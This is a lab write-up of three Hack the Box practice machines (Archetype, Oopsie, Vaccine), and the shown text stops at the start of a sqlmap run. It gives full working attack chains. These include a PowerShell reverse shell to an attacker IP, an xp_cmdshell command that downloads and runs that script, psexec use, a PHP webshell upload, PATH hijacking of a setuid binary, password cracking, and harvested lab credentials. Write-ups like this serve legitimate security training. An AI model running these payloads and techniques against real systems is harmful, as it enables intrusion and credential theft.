





[TOC]


# Hack the Box


## Archetype (Windows, SMB and MSSQL Server)

### Enumeration

``` 
# ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
# nmap -sC -sV -p$ports 10.10.10.27
tarting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 05:39 EST
Nmap scan report for 10.10.10.27
Host is up (0.31s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-03-04T23:31:40
|_Not valid after:  2051-03-04T23:31:40
|_ssl-date: 2021-03-05T11:58:27+00:00; +1h17m19s from scanner time.
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h53m19s, deviation: 3h34m40s, median: 1h17m18s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-03-05T03:58:11-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-05T11:58:15
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.88 seconds
```

**Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.**

2. Use smbclient to list available shares

```
# smbclient -N -L \10.10.10.27

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

It seems there is a share called **backups**. Let's attempt to access it and see what's inside.

```
# smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

		10328063 blocks of size 4096. 8247969 blocks available
smb: \> get prod.dtsConfig d.dtsConfig
getting file \prod.dtsConfig of size 609 as d.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> 
```

There is a dtsConfig file, which is a config file used with SQL Server Integration Services (SSIS) .

```
# cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
```

### Foothold

We see that it contains a SQL connection string, containing credentials for the local Windows user ARCHETYPE\sql_svc.

3. Connect to the SQL Server using Impacket's mssqlclient.py

https://github.com/SecureAuthCorp/impacket

```
(root💀kali)-[/home/kali/impacket/examples]
└─# python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

```
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                  
```

The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

4. Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

5. Stand up a mini webserver in order to host the file. We can use Python.

```
# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

6. Create a netcat listener

```
# nc -nvlp 443                               
listening on [any] 443 ...

```

7. We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.21/shell.ps1\");"
```

### Privilege Escalation

8. Check the netcat listener

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```
# nc -nvlp 443                               
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.27] 49842

# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

This reveals that the backups drive has been mapped using the local administrator credentials.  **user:administrator MEGACORP_4dm1n!!**

9. We can use Impacket's psexec.py to gain a privileged shell.

```
(root💀kali)-[/home/kali/impacket/examples]
└─# python3 psexec.py administrator@10.10.10.27                                                                 1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file oWFuDWsg.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service IQsh on 10.10.10.27.....
[*] Starting service IQsh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```


## Oopsie (Linux, SSH and Apache)

### Enumeration

```
# nmap -sS -A -p- 10.10.10.28
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-07 23:08 EST
Nmap scan report for 10.10.10.28
Host is up (0.24s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=3/7%OT=22%CT=1%CU=34464%PV=Y%DS=2%DC=T%G=Y%TM=6045A494
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11
OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   235.95 ms 10.10.14.1
2   238.10 ms 10.10.10.28

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 346.94 seconds
                                                                                                     
```

Nmap reveals reveals that SSH and Apache are available on their default ports. Let's check out the website.


We can't see anything else of interest, so let's send the request to a web proxy such as Burp, so
we can examine the website in more detail. We point the browser to the Burp proxy at
127.0.0.1:8080 , refresh the page, and forward the request.

On the Target tab, we notice that Burp has passively spidered the website while processing the
request.


The URL /cdn-cgi/login seems interesting, let's examine this in the browser.


We confirm that this is a login page. Let's try to reuse the password **MEGACORP_4dm1n!!** from the previously compromised machine, with common usernames such as administrator or admin .

This is successful, and we gain access to the web portal, which contains additional functionality.


However, it seems the developer has implemented tiers of administration, and the Uploads page is further restricted to the super admin user.

Let's examine the portal further in Burp. We refresh on the Accounts page, which displays the user id for our current user, and intercept the request. We notice what seems to be a custom cookie implementation, comprising of the user value and role. We also notice the id parameter, which for our current admin user is 1.


It might be possible to brute force the id values, and display the user value for another user, such as the super admin account. We can do this using Burp's Intruder module. Click CTRL + i to sent the request to Intruder.


We press Clear to remove the pre-populated payload positions, select the Id value (1), and click Add. Next, click on the Payloads tab.

We can generate a sequential list of 1-100 using a simple bash loop.

```
for i in `seq 1 100`; do echo $i; done
```

Paste the output into the Payloads box.


Next, click on the Options tab, and ensure that Follow Redirectionsis set to "Always", and select the option to "Process cookies in redirections".


Click on the Target tab, and then click Start attack. We sort responses by Length, and view the results.


A few of a responses have a different length, and we proceed to examine them. The super admin account is visible, and corresponding user value is identified.


Let's try to access the Uploads page again, substituting our user value with the super admins.


### Foothold

This is successful, and we gain access to the upload page, which allows branding images to be uploaded.


It's possible that the developer forgot to implement user input validation, and so we should test if we can upload other files, such as a PHP webshell. On Parrot-OS, we can use the PHP reverse shell /usr/share/webshells/php/php-reverse-shell.php.

After changing the IP and port values, we upload the file, capture the request, substitute the user value as before, and click Forward.

Page text reports that the upload was successful, but we don't know where the reverse shell was uploaded to. Let's enumerate the web server for common directories using dirsearch.

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u http://10.10.10.28 -e php
```


This identified an uploads directory, and we can set up our listener and trigger a reverse shell using curl.

```
curl http://10.10.10.28/uploads/test.php
```

We land a shell as www-data and proceed to upgrade it.


```
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


### Lateral Movement

The website records are probably retrieved from a database, so it's a good idea to check for database connection information. Indeed, db.php does contain credentials, and we can su robert to move laterally.


```
www-data@oopsie:/$ ls /var/www/html/cdn-cgi/login
ls /var/www/html/cdn-cgi/login
admin.php  db.php  index.php  script.js
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php
cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```


### Privilege Escalation

The id command reveals that robert is a member of the bugracker group. We can enumerate the filesystem to see if this group has any special access.


```
www-data@oopsie:/$ find / -type f -group bugtracker 2>/dev/null
find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker
www-data@oopsie:/$ ls -al /usr/bin/bugtracker
ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```


There is a bugtracker binary, and the setuid but is set. Let's run it and see what it does.


```
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

Binary package hint: ev-engine-lib

Version: 3.3.3-1

Reproduce:
When loading library in firmware it seems to be crashed

What you expected to happen:
Synchronized browsing to be enabled since it is enabled for that site.

What happened instead:
Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.

```


It seems to output a report based on the ID value provided. Let's use strings to see how it does this.


```
robert@oopsie:~$ strings /usr/bin/bugtracker
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
strcpy
__isoc99_scanf
__stack_chk_fail
putchar
printf
strlen
malloc
strcat
system
geteuid
__cxa_finalize
__libc_start_main
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: 
---------------
cat /root/reports/
;*3$"
GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7697
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
test.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
putchar@@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
strcpy@@GLIBC_2.2.5
_edata
strlen@@GLIBC_2.2.5
__stack_chk_fail@@GLIBC_2.4
system@@GLIBC_2.2.5
printf@@GLIBC_2.2.5
concat
geteuid@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
malloc@@GLIBC_2.2.5
__bss_start
main
__isoc99_scanf@@GLIBC_2.7
strcat@@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
setuid@@GLIBC_2.2.5
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.data
.bss
.comment
```


We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root.

Let's add the current working directory to PATH, create the malicious binary and make it executable.


```
robert@oopsie:~$ export PATH=/tmp:$PATH
robert@oopsie:~$ cd /tmp
robert@oopsie:/tmp$ echo '/bin/bash' > cat
robert@oopsie:/tmp$ chmod +x cat 
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
---------------

root@oopsie:/tmp# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
root@oopsie:/tmp# 
```


### Post Exploitation

Inside root's folder, we see a .config folder, which contains a FileZilla config file with the credentials ftpuser / mc@F1l3ZilL4 visible in plain text.

```
oot@oopsie:/root# cd .config/
root@oopsie:/root/.config# ls
filezilla
root@oopsie:/root/.config# cat filezilla/
root@oopsie:/root/.config# cd filezilla/
root@oopsie:/root/.config/filezilla# ls
filezilla.xml
root@oopsie:/root/.config/filezilla# vi filezilla.xml
```

```
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>

```

### FLAG

```
root@oopsie:/tmp# cd /root/
root@oopsie:/root# ls
reports  root.txt
oot@oopsie:/root# cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```


## Vaccine (Linux, FTP, Apache, SSH and Postgresql)

### Enumeration

Note: this starting point machine only features a root.txt

We begin by running an Nmap scan.

```
# nmap -sC -sV 10.10.10.46
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-11 05:32 EST
Nmap scan report for 10.10.10.46
Host is up (0.32s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.14 seconds
```

Running a simple Nmap scan reveals three open ports running, for FTP, SSH and Apache respectively.

The credentials ftpuser / mc@F1l3ZilL4 can be used to login to the FTP server.

```
# ftp 10.10.10.46         
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2533 Feb 03  2020 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.00 secs (904.1055 kB/s)
```

A file named backup.zip is found in the folder. Extraction of the archive fails as it's password protected. The password can be cracked using JohntheRipper and rockyou.txt.

```
# zip2john backup.zip > hash                                                                ver 2.0 efh 5455 efh 7875 backup.zip/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=1201, decmplen=2594, crc=3A41AE06
ver 2.0 efh 5455 efh 7875 backup.zip/style.css PKZIP Encr: 2b chk, TS_chk, cmplen=986, decmplen=3274, crc=1B1CCD6A
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.


# john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)
1 1g 0:00:00:00 DONE (2021-03-11 05:46) 100.0g/s 25600p/s 25600c/s 25600C/s football1..simpleplan
Waiting for 3 children to terminate
3 0g 0:00:00:01 DONE (2021-03-11 05:46) 0g/s 2134Kp/s 2134Kc/s 2134KC/s  brian89.a6_123
4 0g 0:00:00:01 DONE (2021-03-11 05:46) 0g/s 2121Kp/s 2121Kc/s 2121KC/s  mar ..*7¡Vamos!
2 0g 0:00:00:01 DONE (2021-03-11 05:46) 0g/s 2084Kp/s 2084Kc/s 2084KC/s  derrickak47.abygurl69
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password is found to be `741852963`. Extracting it's contents using the password reveals a PHP file and a CSS file.

```
# unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 
  inflating: index.php               
  inflating: style.css               
```

Looking at the PHP source code, we find a login check. 

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

The input password is hashed and compared to the MD5 hash: `2cb42f8734ea607eefed3b70af13bbd3`. This hash can be easily cracked using an online rainbow table such as crackstation.



The password is cracked as `qwerty789`.

### Foothold

Browse http://10.10.10.46/, we can see a login page for MegaCorp.


The credentials `admin / qwerty789` can be used to login.



The page is found to host a `Car Catalogue`, and contains functionality to search for products. Searching for a term results in the following request.

```
http://10.10.10.46/dashboard.php?search=a
```

The page takes in a GET request with the parameter `search`. This URL is supplied to sqlmap, in order to test for SQL injection  vulnerabilities. The website uses cookies, which can be specified using `--cookie`.

Right-click the page and select `Inspect Element`. Click the `Storage` tab and copy the PHP Session ID.



We can construct the Sqlmap query as follows:

```bash
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=2jdn17htv93irv8i5sni7ppkh7"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:05:36 /2021-03-11/

[06:05:36] [INFO] testing connection to the target URL
